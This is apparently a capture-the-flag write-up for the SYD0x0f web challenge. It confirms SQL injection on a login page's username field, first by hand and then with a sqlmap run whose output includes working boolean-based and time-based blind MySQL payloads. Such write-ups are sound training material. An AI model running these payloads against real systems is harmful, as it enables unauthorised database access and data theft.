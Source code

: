 # SYD0x0f
## Web - Flag 1
Manual testing of the login page using a username of a single quote and a password of "test" returns an error page
```SQL
Fatal Error: MySQL Query Error: SELECT * from users where username = ''' and password = 'a'
```
Lets switch over to SQLMap to validate our testing
```console
root@kali:~# sqlmap --data 'username=john&password=john' -p username -u 'http://52.63.238.93/index.php' --dbms=mysql
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-20150429}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and
federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 10:37:55

[10:37:55] [INFO] testing connection to the target URL
[10:37:55] [INFO] heuristics detected web page charset 'ascii'
[10:37:55] [INFO] testing if the target URL is stable. This can take a couple of seconds
[10:37:56] [INFO] target URL is stable
[10:37:56] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[10:37:56] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to XSS attacks
[10:37:56] [INFO] testing for SQL injection on POST parameter 'username'
do you want to include all tests for 'MySQL' extending provided level (1) and risk (1)? [Y/n]
[10:38:10] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:38:11] [WARNING] reflective value(s) found and filtering out
[10:38:11] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
sqlmap got a 302 redirect to 'http://52.63.238.93:80/admin/index.php'. Do you want to follow? [Y/n]
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N]
[10:38:18] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[10:38:18] [INFO] testing 'MySQL boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (RLIKE)'
[10:38:18] [INFO] POST parameter 'username' seems to be 'MySQL boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (RLIKE)' injectable
---8<---
[10:38:29] [INFO] POST parameter 'username' seems to be 'MySQL > 5.0.11 AND time-based blind (SELECT)' injectable
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection points with a total of 195 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (RLIKE)
    Payload: username=john' RLIKE (SELECT (CASE WHEN (5744=5744) THEN 0x6a6f686e ELSE 0x28 END)) AND 'iSRU'='iSRU&password=john

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 AND time-based blind (SELECT)
    Payload: username=john' AND (SELECT * FROM (SELECT(SLEEP(5)))MKmf) AND 'kDJo'='kDJo&password=john
```